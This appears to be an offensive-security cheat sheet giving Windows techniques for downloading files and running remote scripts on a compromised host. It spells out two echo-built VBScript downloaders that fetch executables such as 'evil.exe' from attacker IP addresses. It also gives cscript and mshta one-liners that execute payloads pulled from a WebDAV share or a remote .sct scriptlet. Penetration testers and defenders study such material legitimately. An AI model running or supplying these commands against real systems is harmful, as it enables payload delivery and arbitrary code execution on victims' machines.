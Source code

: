 ### VBS Script
#### Downloading files
```
echo strFileURL = "http://10.0.0.1:4444/file.exe" >> downloadfile.vbs
echo strHDLocation = "C:\Windows\Temp\file.exe" >> downloadfile.vbs
echo Set objXMLHTTP = CreateObject("MSXML2.XMLHTTP") >> downloadfile.vbs
echo objXMLHTTP.open "GET", strFileURL, false >> downloadfile.vbs
echo objXMLHTTP.send() >> downloadfile.vbs
echo If objXMLHTTP.Status = 200 Then >> downloadfile.vbs
echo Set objADOStream = CreateObject("ADODB.Stream") >> downloadfile.vbs
echo objADOStream.Open >> downloadfile.vbs
echo objADOStream.Type = 1 'adTypeBinary >> downloadfile.vbs
echo objADOStream.Write objXMLHTTP.ResponseBody >> downloadfile.vbs
echo objADOStream.Position = 0 >> downloadfile.vbs
echo Set objFSO = CreateObject("Scripting.FileSystemObject") >> downloadfile.vbs
echo If objFSO.Fileexists(strHDLocation) Then objFSO.DeleteFile strHDLocation >> downloadfile.vbs
echo Set objFSO = Nothing >> downloadfile.vbs
echo objADOStream.SaveToFile strHDLocation >> downloadfile.vbs
echo objADOStream.Close >> downloadfile.vbs
echo Set objADOStream = Nothing >> downloadfile.vbs
echo End if >> downloadfile.vbs
echo Set objXMLHTTP = Nothing >> downloadfile.vbs
cscript downloadfile.vbs
```
or
```
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
cscript wget.vbs http://192.168.10.5/evil.exe evil.exe
```
#### Running a script from remote host
```
cscript //E:jscript \\webdavserver\folder\payload.txt
```
### Mshta
#### Running a script from remote host
```
mshta vbscript:Close(Execute("GetObject(""script:http://webserver/payload.sct"")"))
```
```
```
